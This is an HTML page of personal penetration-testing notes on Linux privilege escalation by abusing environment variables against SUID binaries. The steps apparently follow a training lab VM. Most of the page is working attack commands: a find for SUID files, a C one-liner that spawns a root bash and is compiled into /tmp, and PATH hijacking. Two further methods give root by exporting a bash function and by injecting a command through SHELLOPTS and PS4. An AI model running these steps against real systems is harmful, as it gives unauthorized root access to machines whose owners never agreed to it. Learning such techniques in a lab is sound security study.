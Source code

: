 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Envionrmental variables</title>
</head><body>Escalation via envionrmental variables.<br/>
<br/>
Enviornmental veariables are system wide and inherrited by all process and shells<br/>
<br/>
Look for Environmental varaibles with<br/>
<br/>
<b>env</b><br/>
<br/>
PATH is a very standard env<br/>
<br/>
Maliciously we want to modify an environmental variable taking advantage of a file with a SUID bit set<br/>
<br/>
Start by using the standard permission find command<br/>
<br/>
<b>find / -type f -perm -04000 -ls 2&gt;/dev/null</b><br/>
<br/>
outputs sbit set binaries.<br/>
<br/>
<img src="image.png"/><br/>
<br/>
<br/>
Find a potential with s bits set... run it and check for behaviour.<br/>
<br/>
<img src="image 2.png"/><br/>
<br/>
<img src="image 3.png"/><br/>
<br/>
you can get more info running strings<br/>
<br/>
strings &lt;file&gt;<br/>
<br/>
<img src="image 4.png"/><br/>
***Screen shot example is for different type of file requiring differnt payload. In this example the strings identified itss calling a direct path.. so to exploit you need to create a malicious function.<br/>
<img height="40" src="image 5.png" width="750"/><br/>
<br/>
<img height="78" src="image 6.png" width="750"/><br/>
<br/>
<br/>
TLDR of attack<br/>
<br/>
find an explopitable file... the system would check the environemtnal variable.. Potetnially PATH, when its run. Insert a malicious file and modify PATH to point to your malicious file..<br/>
<br/>
Create a malicious 1 liner<br/>
<br/>
<br/>
syntax &gt; <b>echo 'int main() {setgid(0); setuid(0); system(&quot;/bin/bash&quot;); return }' &gt; /tmp/service.c</b><br/>
<br/>
No compile the c code<br/>
<br/>
<b>gcc /tmp/service.c -o /tmp/service</b><br/>
<br/>
Now we need to modify path to also point to our malicious file location<br/>
<br/>
<b>export PATH=/tmp:$PATH</b><br/>
<br/>
Printing path before and then after this command will show that /tmp is now added and called first<br/>
<br/>
From here running the vulnarble SUID file will grant root.<br/>
<br/>
<br/>
BIG NOTE. If its just calling the serivce. the malicious c code wtih path modification is the easier win. <br/>
If its calling a complete path then use the additonal method in the screen shots<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: find / -type f -perm -04000 -ls 2&gt;/dev/null<br/>
2. From the output, make note of all the SUID binaries.<br/>
3. In command prompt type: strings /usr/local/bin/suid-env<br/>
4. From the output, notice the functions used by the binary.<br/>
<br/>
Exploitation<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type:<br/>
echo 'int main() { setgid(0); setuid(0); system(&quot;/bin/bash&quot;); return 0; }' &gt; /tmp/service.c<br/>
2. In command prompt type: gcc /tmp/service.c -o /tmp/service<br/>
3. In command prompt type: export PATH=/tmp:$PATH<br/>
4. In command prompt type: /usr/local/bin/suid-env<br/>
5. In command prompt type: id<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: find / -type f -perm -04000 -ls 2&gt;/dev/null<br/>
2. From the output, make note of all the SUID binaries.<br/>
3. In command prompt type: strings /usr/local/bin/suid-env2<br/>
4. From the output, notice the functions used by the binary.<br/>
<br/>
Exploitation Method #1<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type:<br/>
function /usr/sbin/service() { cp /bin/bash /tmp &amp;&amp; chmod +s /tmp/bash &amp;&amp; /tmp/bash -p; }<br/>
2. In command prompt type:<br/>
export -f /usr/sbin/service<br/>
3. In command prompt type: /usr/local/bin/suid-env2<br/>
<br/>
Exploitation Method #2<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type:<br/>
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp &amp;&amp; chown root.root /tmp/bash &amp;&amp; chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
</body></html>